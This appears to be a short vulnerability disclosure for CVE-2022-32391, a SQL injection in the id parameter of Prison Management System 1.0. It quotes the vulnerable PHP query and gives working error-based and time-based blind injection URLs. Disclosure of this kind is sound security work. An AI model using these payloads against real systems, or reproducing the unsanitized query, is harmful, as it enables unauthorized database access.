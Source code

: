 # CVE-2022-32391
## Info
#### Prison Management System 1.0 - SQL Injection<br>
#### Vendor Homepage : https://www.sourcecodester.com/ <br>
#### Software Link : https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html

[*] Vulnerability Location : `$_GET['id']` in `/pms/admin/actions/view_action.php:4`
```php
$qry = $conn->query("SELECT * from `action_list` where id = '{$_GET['id']}' and delete_flag = 0 ");
```

## PoC
- Payload : 
```
# Error Based
http://localhost/pms/admin/actions/view_action.php?id=1%27-if(database()/**/=/**/'pms_db',0,1)%23

# Time Based
http://localhost/pms/admin/actions/view_action.php?id=1'-if(database()/**/like/**/'pms_db',0,sleep(1))%23
```
- True : 
`http://localhost/pms/admin/actions/view_action.php?id=1%27-if(database()/**/=/**/'pms_db',0,1)%23`
![True](./img/cve-2022-32391_true.png)
- False : 
`localhost/pms/admin/actions/view_action.php?id=1'-if(database()/**/=/**/'wrong',0,1)%23`
![False](./img/cve-2022-32391_false.png)